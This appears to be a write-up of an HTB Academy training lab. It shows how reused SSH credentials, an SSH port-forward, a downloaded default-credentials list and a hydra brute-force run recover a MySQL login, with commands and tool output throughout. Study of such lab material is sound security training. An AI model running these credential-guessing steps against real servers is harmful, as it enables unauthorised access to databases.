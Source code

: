# **HTB Academy: Password Attacks Module – Password Reuse/Default Passwords**

## **Challenge Overview:**
The task is to find MySQL credentials using previously discovered user credentials. Below is the step-by-step approach I followed to solve this challenge.

---

### **Step 1: Establish an SSH Tunnel**

Using SSH, I forwarded the MySQL port (3306) to my local machine:

```bash
ssh -L 4444:localhost:3306 sam@10.129.xx.xxx
```

- **Username:** `sam`
- **Password:** `B@t********`

---

### **Step 2: Download Default Credentials Cheat Sheet**

I fetched a default credentials cheat sheet that includes common MySQL credentials:

```bash
wget https://raw.githubusercontent.com/ihebski/DefaultCreds-cheat-sheet/main/DefaultCreds-Cheat-Sheet.csv
```

---

### **Step 3: Filter for MySQL Credentials**

Using `grep`, I extracted MySQL-specific credentials from the cheat sheet and saved them to a file for further testing:

```bash
cat DefaultCreds-Cheat-Sheet.csv | grep MySql
grep -i 'mysql' DefaultCreds-Cheat-Sheet.csv > cred.list
```

I then manually edited the `cred.list` file to keep the most promising credentials:

```
admin@example.com:admin
root:<blank>
root:root
superdba:admin
```

---

### **Step 4: Brute-Force Login Using Hydra**

To automate the login attempts, I used `hydra` with the credentials file:

```bash
hydra -C cred.list mysql://localhost:4444
```

---

### **Success!**

After a few attempts, Hydra successfully found valid MySQL credentials:

- **Login:** `superdba`
- **Password:** `admin`

```bash
[4444][mysql] host: localhost login: superdba password: admin
1 of 1 target successfully completed, 1 valid password found
```

---

**Happy Hacking!**
